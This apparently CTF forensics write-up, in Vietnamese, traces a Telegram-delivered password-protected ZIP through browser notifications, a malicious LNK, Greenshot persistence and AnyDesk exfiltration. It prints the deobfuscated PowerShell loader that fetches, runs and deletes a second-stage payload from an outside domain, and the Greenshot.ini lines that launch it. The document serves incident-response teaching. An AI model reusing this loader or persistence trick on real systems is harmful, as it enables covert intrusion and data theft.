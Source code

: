 ## Description 
#### An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.
##### The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.
## Solution
### What is the the web messaging app the employee used to talk to the attacker?
##### Ngay từ câu hỏi ta thấy rằng người nhân viên này liên lạc với attacker thông qua web app vì vậy ta dùng lệnh bash để xem có trình duyệt web nào đang được cài trên máy trước.
```
find -D tree | grep -iE "chrome|firefox|brave|msedge|opera|safari|vivaldi|edge|coc coc" 
```
##### Lệnh này sẽ quét tất cả các folder chứa tên của 1 vài trình duyệt phổ biến 
![image](https://hackmd.io/_uploads/rJfhKsIUJe.png)
![image](https://hackmd.io/_uploads/HkvTFjULkl.png)
##### Có 2 trình duyệt đang được cài đặt trên máy là Edge và Chrome, trước tiên ta xem lịch sử nạn nhân truy cập thông qua file `History`
![image](https://hackmd.io/_uploads/HkyK5oUIkl.png)
![image](https://hackmd.io/_uploads/BJYJso8Uyl.png)
##### Chỉ thấy rằng trên Edge nạn nhân tìm và tải xuống chrome chứ không có gì đặc biệt, còn chrome thì không có file History.
##### Dựa vào thông tin `he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test` từ mô tả, ta sẽ kiểm tra lịch sử thông báo trên google chrome.
##### Dựa vào [bài viết này](https://superuser.com/questions/947947/view-past-notifications-in-windows-10-and-11) ta dễ dàng tìm thấy file database chứa thông báo
![image](https://hackmd.io/_uploads/ByUthj8Iyl.png)
![image](https://hackmd.io/_uploads/r1AxaoLUJg.png)
##### 1 thông báo gửi từ telegram yêu cầu nạn nhân tải file xuống và giải nén với mật khẩu là @1122d
```python
<toast launch="0|0|Default|0|https://web.telegram.org/|p#https://web.telegram.org/#" displayTimestamp="2023-07-11T16:57:15Z">
 <visual>
  <binding template="ToastGeneric">
   <text>Nawaf</text>
   <text>📎 our project templet test.zip,pass:@1122d</text>
   <text placement="attribution">web.telegram.org</text>
   <image placement="appLogoOverride" src="C:\Users\OMEN\AppData\Local\Google\Chrome\User Data\Notification Resources\cd18935b-57e3-4838-b5e3-ef360362f771.tmp" hint-crop="none"/>
  </binding>
 </visual>
 <actions>
  <action content="Go to Chrome notification settings" placement="contextMenu" activationType="foreground" arguments="2|0|Default|0|https://web.telegram.org/|p#https://web.telegram.org/#"/>
 </actions>
</toast>
```

> Answers : Telegram

### What is the password for the protected ZIP file sent by the attacker to the employee?
##### Như đã phân tích ở trên 

> Answers : @1122d

### What domain did the attacker use to download the second stage of the malware?
##### Tìm file mà attacker đề cập thì thấy nó nằm tại mục Downloads
```
┌──(kali㉿kali)-[~/Downloads/challenge/Users]
└─$ find -D tree | grep -i test.zip                   
./OMEN/Downloads/project templet test.zip
```
##### File này chứa 2 file, 1 file docx và 1 file lnk, kiểm tra file lnk trước.
![image](https://hackmd.io/_uploads/SkOZPhLLkl.png)
##### File này kích hoạt lệnh thực thi powershell chứa mã bị làm rối, sửa lại 1 tí cho dễ nhìn 
```powershell
-ExecutionPolicy UnRestricted 
$ProgressPreference = 0;
function nvRClWiAJT($inputString) {
    $inputString[$inputString.Length..0] -join('');
}
function sDjLksFILdkrdR($inputString) {
    $reversedString = nvRClWiAJT $inputString;
    $outputString = '';
    for ($i = 0; $i -lt $reversedString.Length; $i += 2) {
        try {
            $outputString += nvRClWiAJT $reversedString.Substring($i, 2);
        } catch {
            $outputString += $reversedString.Substring($i, 1);
        }
    }
    return $outputString;
}
$decodedUrl = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$downloadPath = $env:APPDATA + '\' + ($decodedUrl -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$webContent = wget $decodedUrl -UseBasicParsing;
[IO.File]::WriteAllText($downloadPath, $webContent);
& $downloadPath;
sleep 3;
rm $downloadPath;

```
##### Đoạn mã thực hiện tải xuống 1 file được cho bởi 1 liên kết có sẵn, thực thi nó và xóa.
##### Chuỗi được chỉnh sửa về dạng liên kết bằng cách đảo ngược từng 2 kí tự của chúng.
![image](https://hackmd.io/_uploads/rJRdOnU8ke.png)
> Answers: masherofmasters.cyou

### What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?
##### Ta cần xác định LOAPPS là gì?
```
Living off the Land Applications (LOLAPPS) là một chiến lược quan trọng trong an ninh mạng, nơi kẻ tấn công khai thác các ứng dụng hợp pháp có sẵn trong hệ thống để thực hiện các hành động độc hại mà không cần đến mã độc hay công cụ bên ngoài. Điều này giúp kẻ tấn công tránh được sự phát hiện vì sử dụng các phần mềm đã được tin tưởng.
Một số điểm quan trọng về LOLAPPS:

- Khai thác ứng dụng có sẵn: LOLAPPS tập trung vào việc tìm kiếm các tính năng trong ứng dụng đã có sẵn như Microsoft Office, Notepad, hoặc các trình duyệt web để thực hiện tấn công.
- Ứng dụng bên thứ ba và tích hợp sẵn: Bên cạnh các ứng dụng cài đặt sẵn trên hệ thống, các phần mềm bên thứ ba như trình duyệt web hoặc các công cụ bảo mật cũng có thể bị lợi dụng nếu có lỗ hổng bảo mật.
- Khai thác trong các hoạt động hàng ngày (Quan trọng): Kẻ tấn công có thể lợi dụng các tính năng thông dụng trong phần mềm để thực hiện các hoạt động độc hại mà không cần thay đổi cấu trúc hệ thống.
```
##### Một vài ứng dụng có thể sử dụng để tận dụng kĩ thuật này: https://lolapps-project.github.io/#
##### Bây giờ truy cập vào AppData/Roaming để xem ứng dụng tương ứng có thể cài mã độc vào.
![image](https://hackmd.io/_uploads/ryoC92LLkg.png)
##### Kiểm tra phần mềm Greenshot, tại file Greenshot.ini có 1 đoạn như thế này
```
Commandline.jlhgfjhdflghjhuhuh=C:\Windows\system32\cmd.exe
; The arguments for the output command.
Argument.MS Paint="{0}"
Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"
```
##### Khúc này gán đường dẫn `C:\Windows\system32\cmd.exe` cho jlhgfjhdflghjhuhuh sau đó sử dụng nó để thực hiện file templet.lnk ở Temp
![image](https://hackmd.io/_uploads/S115o2UI1l.png)
##### Đây là file độc hại đã được giải nén lúc nãy, cho nên đây là 1 cơ chế persistence
> Answers : jlhgfjhdflghjhuhuh
### What is the complete path of the malicious file that the attacker used to achieve persistence?
##### Đã phân tích ở trên 
> Answers : C:\Users\OMEN\AppData\Local\Temp\templet.lnk
### What is the name of the application the attacker utilized for data exfiltration?
##### Tìm hiểu về `ATT&CK® Techniques - T1546` của ứng dụng bị lợi dụng
##### T1219 sử dụng tải xuống 1 phần mềm cho phép truy cập từ xa, nó là Anydesk
![image](https://hackmd.io/_uploads/HJxlRhLLJg.png)
> Answers: AnyDesk
### What is the IP address of the attacker?
##### Để biết được ip của attacker, ta kiểm tra logs của phần mềm này thông qua tệp ad.trace.
![image](https://hackmd.io/_uploads/Sy0LRhLLke.png)

> Answers : 77.232.122.31
